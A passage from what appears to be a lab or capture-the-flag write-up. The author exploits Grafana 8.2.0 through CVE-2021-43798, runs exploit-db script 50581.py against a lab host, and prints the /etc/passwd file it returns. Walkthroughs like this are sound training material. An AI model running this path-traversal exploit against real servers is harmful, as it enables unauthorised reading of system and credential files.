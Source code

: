 And the version I'm working with is `8.2.0`, hopefully It's also vulnerable to this exploit. The CVE for this exploit is [CVE-2021-43798](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798)

![Grafana Login Page](img/grafana_login.png)

Perfect, I got a copy of that exploit file, modified it a bit to suit my case here, and ran it on `/etc/passwd` as a trial:

```shell
└─$ cp /opt/exploitdb/exploits/multiple/webapps/50581.py .

└─$ python 50581.py -H http://10.129.216.66:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
```